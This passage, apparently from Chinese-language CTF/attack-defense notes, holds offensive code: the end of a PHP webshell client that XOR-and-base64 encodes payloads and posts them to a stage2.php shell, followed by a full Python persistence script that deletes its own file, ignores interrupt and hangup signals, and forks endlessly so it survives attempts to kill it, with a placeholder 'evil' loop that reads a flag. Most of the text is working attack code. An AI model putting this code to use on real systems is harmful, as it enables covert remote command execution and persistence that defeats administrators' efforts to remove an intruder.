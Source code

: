 			      def encode(s):
			          s = s.encode()
			          s = (b ^ ((key + i) % 256) for i, b in enumerate(s))
			          return encoder.base64_encode(bytes(s))
			  
			      r = base_post(
			          url,
			          data={"data": encode(payload)},
			          do_retry=False
			      )
			      if not r:
			          return 500, ""
			      return r.status_code, r.text
			  
			  session = postexec.session.PHPWebshellExp(exp_stage2, "http://127.0.0.1/stage2.php")
			  
			  ```
- # 无限fork权限维持
	- ```python
	  import os
	  import time
	  import signal
	  # made with love by marven11
	  is_dev = len("/bin") < 10
	  
	  if not is_dev:
	      os.unlink(__file__)
	  else:
	      print(__file__)
	  
	  
	  def hook_signals():
	  
	      def signal_handler(sig, frame):
	          pass
	  
	      signal.signal(signal.SIGINT, signal_handler)
	      signal.signal(signal.SIGHUP, signal_handler)
	  
	  
	  def loop():
	      print("do your evil things here")
	      # os.system("cat /flag")
	  
	  
	  def main():
	      last_exec_time = time.perf_counter()
	      hook_signals()
	      while True:
	          if is_dev:
	              time.sleep(0.1)
	          else:
	              time.sleep(0)
	          pid = os.fork()
	          if pid != 0:
	              exit()
	          if time.perf_counter() - last_exec_time > 1:
	              last_exec_time = time.perf_counter()
	              pid = os.fork()
	              if pid == 0:
	                  loop()
	                  exit()
	  
	  
	  if __name__ == "__main__":
	      main()
	  
	  ```